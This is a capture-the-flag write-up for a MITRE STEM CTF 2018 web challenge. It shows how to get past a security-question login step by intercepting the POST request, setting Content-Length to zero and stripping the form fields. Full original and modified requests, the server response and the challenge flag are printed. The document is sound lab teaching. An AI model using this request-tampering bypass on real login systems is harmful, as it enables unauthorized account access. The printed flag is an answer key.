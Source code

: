 ##mitrestemctf2018-writeups

**mitrestemctf.org --- Two Problems --- Web 100 points**

Description:

"I lost my phone and I can't log in to my favorite website. Can you help me get access?"

**Issue:**

Login auth is immediately presented with 2 security questions, the user doesn't know the answer to either question

**We need to gain access w/o knowing security questions**

**Recon:**

1 - Initial link provided points to: http://138.247.115.171/home
- This is a login page with a set of credentials that are provided
- User: DonutsAreG8
- Pass: butChocolateIsBetter

2 - upon login we are presented with 2 security questions: http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter

Let's take a look at the request headers to see what's being sent: 

--------------
POST /login/donutsAreGr8/butChocolateIsBetter HTTP/1.1
Host: 138.247.115.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter
Connection: close
Upgrade-Insecure-Requests: 1 <--------- probably want to try setting this to 0 as well
Content-Type: application/x-www-form-urlencoded
Content-Length: 21 <----------- Content length is being passed in request headers

secQ1=1234&secQ2=1234 <--------- security question fields
----------------

**Hypothesis:** 
Intercept request, and modify "Content-Length" Header from 21 to 0, then forward request


**Resolution:**

1 - Use Chrome devtools to pull request headers initially to see how the web app responds to POST requests on the security questions page
2 - Once we have what *should* be in the request headers, run the same request in burpsuite (this can be done with curl as well from a shell, but it was faster to use burpsuite. Don't judge me)
3 - Intercept the POST for /login/donutsAreGr8/butChocolateIsBetter
4 - Modify the "Content-Length" header from "21" to "0"
5 - Modify the "Upgrade-Insecure-Requests" header from "1" to "0"
5 - Make sure to remove "secQ1=&secQ2=" from the payload (since the Content-Length 0 is now telling the web app to expect a 0 length payload)
6 - Forward request with modified header and payload to app. 
7 - App responds to request by letting us through past the security questions, and to waiting flag
8 - Profit :)

Request and response headers:

Original Request

POST /login/donutsAreGr8/butChocolateIsBetter HTTP/1.1
Host: 138.247.115.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

secQ1=&secQ2=


Modified Request

POST /login/donutsAreGr8/butChocolateIsBetter HTTP/1.1
Host: 138.247.115.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.247.115.171/login/donutsAreGr8/butChocolateIsBetter
Connection: close
Upgrade-Insecure-Requests: 0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

Response

HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Connection: close
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Sat, 21 Apr 2018 06:18:54 GMT
X-Powered-By: Phusion Passenger 5.2.3
Server: nginx/1.12.2 + Phusion Passenger 5.2.3
Content-Length: 122

<title>Welcome</title>
Welcome donutsAreGr8!<br>
As thanks for using our website please accept this flag, MCA{Igkqs1Pn5w}.
